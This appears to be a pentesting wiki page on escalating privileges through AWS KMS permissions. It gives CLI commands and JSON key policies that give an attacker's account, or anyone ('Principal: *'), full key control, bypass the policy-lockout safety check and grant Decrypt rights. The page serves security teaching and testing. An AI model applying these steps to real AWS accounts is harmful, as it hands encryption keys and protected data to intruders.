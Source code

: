 # AWS - KMS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## KMS

For more info about KMS check:

{{#ref}}
../aws-services/aws-kms-enum.md
{{#endref}}

### `kms:ListKeys`,`kms:PutKeyPolicy`, (`kms:ListKeyPolicies`, `kms:GetKeyPolicy`)

With these permissions it's possible to **modify the access permissions to the key** so it can be used by other accounts or even anyone:

```bash
aws kms list-keys
aws kms list-key-policies --key-id <id> # Although only 1 max per key
aws kms get-key-policy --key-id <id> --policy-name <policy_name>
# AWS KMS keys can only have 1 policy, so you need to use the same name to overwrite the policy (the name is usually "default")
aws kms put-key-policy --key-id <id> --policy-name <policy_name> --policy file:///tmp/policy.json
```

policy.json:

```json
{
  "Version": "2012-10-17",
  "Id": "key-consolepolicy-3",
  "Statement": [
    {
      "Sid": "Enable IAM User Permissions",
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::<origin_account>:root"
      },
      "Action": "kms:*",
      "Resource": "*"
    },
    {
      "Sid": "Allow all use",
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::<attackers_account>:root"
      },
      "Action": ["kms:*"],
      "Resource": "*"
    }
  ]
}
```

### `kms:CreateGrant`

It **allows a principal to use a KMS key:**

```bash
aws kms create-grant \
    --key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
    --grantee-principal arn:aws:iam::123456789012:user/exampleUser \
    --operations Decrypt
```

> [!WARNING]
> A grant can only allow certain types of operations: [https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations](https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations)

> [!WARNING]
> Note that it might take a couple of minutes for KMS to **allow the user to use the key after the grant has been generated**. Once that time has passed, the principal can use the KMS key without needing to specify anything.\
> However, if it's needed to use the grant right away [use a grant token](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token) (check the following code).\
> For [**more info read this**](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token).

```bash
# Use the grant token in a request
aws kms generate-data-key \
    --key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
    –-key-spec AES_256 \
    --grant-tokens $token
```

Note that it's possible to list grant of keys with:

```bash
aws kms list-grants --key-id <value>
```

### `kms:CreateKey`, `kms:ReplicateKey`

With these permissions it's possible to replicate a multi-region enabled KMS key in a different region with a different policy.

So, an attacker could abuse this to obtain privesc his access to the key and use it

```bash
aws kms replicate-key --key-id mrk-c10357313a644d69b4b28b88523ef20c --replica-region eu-west-3 --bypass-policy-lockout-safety-check --policy file:///tmp/policy.yml

{
    "Version": "2012-10-17",
    "Id": "key-consolepolicy-3",
    "Statement": [
        {
            "Sid": "Enable IAM User Permissions",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "kms:*",
            "Resource": "*"
        }
    ]
}
```

### `kms:Decrypt`

This permission allows to use a key to decrypt some information.\
For more information check:

{{#ref}}
../aws-post-exploitation/aws-kms-post-exploitation.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}





